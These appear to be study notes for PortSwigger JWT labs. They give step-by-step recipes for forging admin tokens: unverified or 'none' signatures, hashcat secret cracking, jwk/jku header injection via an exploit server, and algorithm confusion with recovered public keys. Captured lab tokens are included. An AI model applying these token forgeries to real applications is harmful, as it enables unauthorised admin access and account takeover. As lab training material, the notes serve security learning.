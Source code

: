 # JWT

 Symmetric Key  : HS256
 ASymmetric key : RSA

### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### Lab: JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```

### Lab: JWT authentication bypass via weak signing key

Payload
```
step 1 : Brute-force the secret key

	hashcat -a 0 -m 16500 complete_jwt_tokens ./jwt.secrets.list  : secret1
	Encode in base64 secret1 : c2VjcmV0MQ==

step 2: Generate a forged signing key

	 - JWT Editor Keys tab and click New Symmetric Key : Generate
	 - Replace the generated value for the k property with the Base64-encoded secret.

step 3 - Modify and sign the JWT
		
	 - {"iss":"portswigger","exp":1760963935,"sub":"wiener"}
	 - {"iss":"portswigger","exp":1760963935,"sub":"administrator"}

	 - Sign, then select the key that you generated .



```

## JWT header parameter injections

- According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

		- 	jwk (JSON Web Key) - Provides an embedded JSON object representing the key.
		-	jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
		-	kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.

### Lab: JWT authentication bypass via jwk header injection

Payload
```
- JWT Editor Keys tab.
- Generate a new RSA key .
- JSON Web Token tab and modify the token's payload however you like.
- Click Attack, then select Embedded JWK.
- you may also need to update the JWT's kid header parameter to match the kid of the embedded key

```

### Lab: JWT authentication bypass via jku header injection

Payload
```
step 1: Generate a RSA signing key
	- JWT Editor Keys tab.
	- Generate a new RSA key 
	- Paste the RSA key on exploit server in below section :
		{
    	"keys": [
    		// Generate a new RSA key 
    		]
		}

- step 2 - Modify and sign the JWT
	- Match the both kid values (new values)
	- Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
	- sub  : administrartor 
	- Sign with RSA key
```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/jwt-jku.jpg)


<hr>

### Lab: JWT authentication bypass via algorithm confusion


Payload
```
step 1 — Obtain the server public key
	- Open /jwks.json in the browser and copy the single JWK object from the keys array (copy only the object).

step 2 — Create a malicious symmetric key in Burp

	- In Burp → JWT Editor → Keys: New RSA Key → choose JWK and paste the copied JWK; save.
	- Right-click the new key → Copy Public Key as PEM.
	- Base64-encode that PEM (use Decoder tab) and copy the Base64 string.
	- In JWT Editor → Keys: New Symmetric Key → Generate, then replace the k value with the Base64-encoded PEM; save.

Step 3 — Modify and sign the token

	- Open the GET /admin request in Repeater, switch to the JWT Editor tab.
	- Change JWT header alg → HS256.
	- Change payload claim sub → administrator.
	- Click Sign, pick the symmetric key you created, ensure Don't modify header is selected, and sign.
	- Send the request — you should now access the admin panel.

```


eyJraWQiOiJkMDViODA0OS0zMTJhLTQ5ZDEtOWEzMS1mYzZhZGYyMzA5MDMiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTA4ODA4OSwic3ViIjoid2llbmVyIn0.lS8m_gxpM4IOtEdpN4qRmi9y78y27xfWUCQd9Rhe7mn4MVpvjvPC0zwgD54Y1zOYUohmAHScqQHpqskJ7xm1BviNseldHnuyskG1cdi1DRd_-nglQAGfyor7Zq37wS05TzWIBCvlNgoA3fl53bQMbAAtoNACRgEkRCxwbT3_TAu0rxohctZKXF92sTQxqwsu0EbCgU-UzpAJid9Q9hZBGDy9v0MhFoe-T67RCjZEgrOkFSp6tuu0-KneQa2Rd39T4WMMKAJpzneUDX6U-IISChZaK06ORCNnWQIHmSfXas6Burt8HzqHOxbXb5KrnGQBOJ7Em6fRUrpXMxR1j_h9nQ


eyJraWQiOiJkMDViODA0OS0zMTJhLTQ5ZDEtOWEzMS1mYzZhZGYyMzA5MDMiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTA4ODE3OSwic3ViIjoid2llbmVyIn0.LwNBoOjD0-VwaVQeZ9ELLWDQPUzqR5Uk-vbdMtbM3DVwWWl2xohuE_Qqhi6vQ4p7YdQuYIhrrRSU-nHhZS90nPInvLFLFqYbxrB83Pl9TWxForedKF8eHAKlZ6V7YlmQpknU0divlLb05daF6JeslBbDlXicSy41Gl4KOZncssUwMY-meARFLd9c2vNYwL08KpwJcguSXCXYd7mtrFp2mJj6aLrQbSpMTjtC8iVdzOW4SYnnFpr22gSQoRV8uL1XS66yJNr-WzbFuG88-YnlduywfKuBRbdIpQHhVq6UQbDefC73oWjwkTUMjMIg1AhD1wIhe4labSni8sm5W4Rr6w


Payload
```
 Collect two valid JWTs
	- Log in, capture the session JWT (/my-account → store cookie).
	- Log out, log in again, capture a second JWT.
- Brute-force candidate public keys
	- Run docker run --rm -it portswigger/sig2n <token1> <token2>.
	- The tool outputs candidate n values, Base64 X.509/PKCS1 public keys and tampered JWTs.
	- Find the server’s actual public key
	- For each tampered JWT (X.509 entry) replace your session cookie in Burp and request /my-account.
	- A 200 means you found the correct X.509 key; a 302 redirect to /login means it’s wrong.
	- Create a symmetric key in Burp
	- In JWT Editor → Keys → New Symmetric Key → Generate JWK.
	- Replace the k value with the Base64 X.509 key you identified (use the key itself, not the tampered JWT). Save.
	- Forge and sign an admin token
	- In Repeater open the JWT (JWT Editor tab). Set header alg: HS256.
	- Change payload claim sub to administrator.
	- Sign with the symmetric key you created (ensure “Don't modify header” is selected). This uses the server’s public key as the HMAC secret.
```